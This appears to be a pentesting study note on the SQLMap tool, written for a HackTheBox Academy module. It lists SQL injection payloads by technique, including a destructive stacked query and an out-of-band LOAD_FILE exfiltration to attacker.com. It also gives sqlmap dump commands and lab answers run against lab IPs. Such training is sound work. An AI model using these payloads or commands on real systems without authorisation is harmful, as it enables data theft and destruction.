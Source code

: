 # 🐡 SQLMap Essentials

[SQLMap](https://github.com/sqlmapproject/sqlmap) is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws.

We can install it the following way:

```shell-session
sudo apt install sqlmap
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

The default techniques that are used are `BEUSTQ:`

* `B`: Boolean-based blind
* `E`: Error-based
* `U`: Union query-based
* `S`: Stacked queries
* `T`: Time-based blind
* `Q`: Inline queries

***

### Different types of SQLI

#### Boolean-based blind SQL Injection

```sql
AND 1=1
```

It is exploited through the differentiation of `TRUE` from `FALSE` query results

The differentiation is based on comparing server responses to determine whether the SQL query returned `TRUE` or `FALSE`.

#### Error-based SQL Injection

```sql
AND GTID_SUBSET(@@version,0)
```

If the `database management system` (`DBMS`) errors are being returned as part of the server response for any database-related problems, then there is a probability that they can be used to carry the results for requested queries.

#### UNION query-based

```sql
UNION ALL SELECT 1,@@version,3
```

With the usage of `UNION`, it is generally possible to extend the original (`vulnerable`) query with the injected statements' results.

the attacker can get additional results from the injected statements within the page response itself.

#### Stacked queries

```sql
; DROP TABLE users
```

This works by injecting additional SQL statements after the vulnerable one. In case that there is a requirement for running non-query statements (e.g. `INSERT`, `UPDATE` or `DELETE`), stacking must be supported by the vulnerable platform (e.g., `Microsoft SQL Server` and `PostgreSQL` support it by default)

#### Time-based blind SQL Injection

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

The principle of `Time-based blind SQL Injection` is similar to the `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation between `TRUE` or `FALSE`.

#### Inline queries

```sql
SELECT (SELECT @@version) from
```

#### Out-of-band SQL Injection

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi).

### Getting Started

To get all options and switches&#x20;

```shell-session
sqlmap -hh
```

Basic command:

```shell-session
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

{% hint style="info" %}
Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.
{% endhint %}

{% hint style="info" %}
#### Different messages usually found during a scan of SQLMap ->

https://academy.hackthebox.com/module/58/section/696
{% endhint %}

To set up an SQLMap request against the specific target is by utilizing `Copy as cURL`

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```shell-session
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

`GET` parameters are provided with the usage of option `-u`/`--url`

`POST` data, the `--data` flag can be used

```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

If we want to use an alternative HTTP method, other than `GET` and `POST` (e.g., `PUT`), we can utilize the option `--method`

```shell-session
sqlmap -u www.target.com --data='id=1' --method PUT
```

Another way of launching sqlmap is with a burp request:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

we copy and paste the request in a txt file and call it in our command:

```shell-session
sqlmap -r req.txt
```

if we have a case where we have a session cookie we need to specify it:

```shell-session
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

**Questions**

\#1&#x20;

```
sqlmap 'http://83.136.250.45:54294/case2.php' --data 'id=1' --batch --dump
```

\#2&#x20;

```
sqlmap 'http://83.136.250.45:54294/case3.php' --cookie='id=1*' --dump --batch
```

\#3&#x20;

```
sqlmap -r req2.txt --dump --batch
```

### Handling SQLMap Errors

`--parse-errors`, to parse the DBMS errors (if any) and displays them as part of the program run

`-t` option stores the whole traffic content to an output file

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

`-v` option, to raise the verbosity level of the console output

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

`--proxy` option to redirect the whole traffic through a (MiTM) proxy (e.g., `Burp`). This will route all SQLMap traffic through `Burp`, so that we can later manually investigate all requests

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Prefix & Suffix

To go faster after manual enumeration we can use  `--prefix` and `--suffix`

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

This will result in a query like this:

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

**Questions**

**#5**&#x20;

```
sqlmap http://94.237.59.231:59227/case5.php?id=1 --risk=3 --level=5 -T flag5 --no-cast --batch --dump
```

\#6&#x20;

```
sqlmap http://94.237.59.231:59227/case6.php?col=id --random-agent --batch --dump --prefix='`)' --level=5 --risk=3
```

\#7&#x20;

```
sqlmap http://94.237.59.231:59227/case7.php?id=1 --union-cols=5 --dump --no-cast
```
